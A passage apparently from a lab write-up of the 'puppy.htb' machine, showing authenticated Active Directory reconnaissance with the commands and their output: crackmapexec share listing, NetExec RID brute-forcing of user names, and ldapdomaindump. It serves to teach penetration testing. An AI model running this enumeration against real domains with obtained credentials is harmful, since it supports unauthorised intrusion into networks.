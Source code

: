 
```
~$ crackmapexec smb dc.puppy.htb -u levi.james -p 'KingofAkron2025!' --shares

SMB         dc.puppy.htb    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         dc.puppy.htb    445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
SMB         dc.puppy.htb    445    DC               [+] Enumerated shares
SMB         dc.puppy.htb    445    DC               Share           Permissions     Remark
SMB         dc.puppy.htb    445    DC               -----           -----------     ------
SMB         dc.puppy.htb    445    DC               ADMIN$                          Remote Admin
SMB         dc.puppy.htb    445    DC               C$                              Default share
SMB         dc.puppy.htb    445    DC               DEV                             DEV-SHARE for PUPPY-DEVS
SMB         dc.puppy.htb    445    DC               IPC$            READ            Remote IPC
SMB         dc.puppy.htb    445    DC               NETLOGON        READ            Logon server share 
SMB         dc.puppy.htb    445    DC               SYSVOL          READ            Logon server share
```

<p class="indent-paragraph">
The next step was to enumerate domain users via RID brute-forcing. <code>nxc</code> (NetExec), a modern and modular successor to CrackMapExec, proved ideal for the task. By leveraging the <code>--rid-brute</code> option, we prompted the domain controller to reveal internal identifiers tied to user accounts. RIDs (Relative Identifiers) are how Active Directory distinguishes users and groups under the hood. Even with low privileges, a properly filtered enumeration can reveal a surprising amount of structure within the environment.
</p>

```
~$ nxc smb dc.puppy.htb -u 'levi.james' -p 'KingofAkron2025!' --rid-brute | grep "SidTypeUser" | awk -F '\\\\' '{print $2}' | awk '{print $1}'

Administrator
Guest
krbtgt
DC$
levi.james
ant.edwards
adam.silver
jamie.williams
steph.cooper
steph.cooper_adm
```

<p class="indent-paragraph">
With a list of users gathered, the next logical step was to investigate group memberships. Using <code>ldapdomaindump</code><span class="codefix">,</span> we obtained a complete snapshot of the domain including users, groups, and their relationships. The resulting dump provided a clear overview of the environment’s structure and helped identify privileged accounts worth pursuing.
</p>


```
~$ ldapdomaindump dc.puppy.htb -u 'PUPPY.HTB\levi.james' -p 'KingofAkron2025!' 

[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```
